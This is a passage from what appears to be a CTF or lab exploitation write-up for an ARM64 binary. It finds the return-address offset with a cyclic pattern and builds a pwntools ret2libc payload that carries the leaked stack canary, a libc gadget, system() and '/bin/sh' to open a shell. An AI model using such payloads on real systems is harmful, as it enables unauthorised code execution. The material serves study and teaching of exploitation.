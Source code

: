 <figure><img src="../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

we can see that our `De Brujin` has populated `x30` and `x0`, let's find its offset.

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

and we get the offset relative to our cyclic(40), not from the start of our payload. adjusting our payload for the last time it would look like this:

```python
offset = 104
payload = flat({
    offset: [
        canary,
        0,
        libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
        0,
        canary,
    ]
})
payload += b'A' * 8
payload += p64(libc.sym['system'])  # x1 and x2 already NULL
payload += b'B' * 8
payload += p64(next(libc.search(b'/bin/sh\x00')))
```

